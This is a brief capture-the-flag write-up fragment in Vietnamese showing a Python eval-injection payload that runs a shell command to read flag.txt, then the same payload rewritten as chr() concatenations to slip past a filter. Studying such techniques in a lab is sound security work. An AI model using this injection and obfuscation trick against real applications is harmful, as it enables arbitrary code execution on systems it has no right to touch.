

payload:
`__import__('subprocess').getoutput('cat flag.txt')`
Nhưng chuyển sang dạng chr 
```
chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(115)+chr(117)+chr(98)+chr(112)+chr(114)+chr(111)+chr(99)+chr(101)+chr(115)+chr(115)+chr(39)+chr(41)+chr(46)+chr(103)+chr(101)+chr(116)+chr(111)+chr(117)+chr(116)+chr(112)+chr(117)+chr(116)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)
```
Vì hàm eval là hàm thực thi nên ta hoàn toan có thế ghép chúng lại thành một chuỗi
